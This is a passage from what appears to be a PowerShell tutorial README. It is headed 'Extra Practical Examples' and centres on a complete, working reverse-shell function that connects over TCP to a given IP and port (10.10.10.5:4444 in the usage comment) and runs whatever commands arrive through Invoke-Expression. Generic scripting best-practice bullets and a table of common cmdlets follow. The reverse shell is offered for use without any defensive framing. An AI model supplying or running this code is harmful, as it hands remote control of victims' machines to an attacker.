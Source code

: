 ## 📌 Extra Practical Examples

### Create a Simple Reverse Shell

```powershell
function Start-ReverseShell {
    param ($ip, $port)

    $client = New-Object System.Net.Sockets.TCPClient($ip, $port)
    $stream = $client.GetStream()
    [byte[]]$bytes = 0..65535|%{0}

    while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
        $sendback = (iex $data 2>&1 | Out-String )
        $sendback2 = $sendback + "PS " + (pwd).Path + "> "
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
    }

    $client.Close()
}

# Usage
# Start-ReverseShell -ip "10.10.10.5" -port 4444
```

---

## ✅ Best Practices

- Always use clear and meaningful variable names.
- Organize your scripts using functions for better readability.
- Handle sensitive data carefully (passwords, tokens, etc.).
- Practice writing modular and reusable scripts.
- Comment your code properly for future maintenance.

---

# 📚 Useful Commands

| Command                     | Purpose                             |
|------------------------------|-------------------------------------|
| `Test-Connection`            | Ping targets                       |
| `Invoke-WebRequest`          | Send HTTP requests                 |
| `Get-Content`                | Read files                         |
| `Out-File`                   | Write output to files              |
| `New-Object System.Net.Sockets.TCPClient` | Create TCP client  |

---

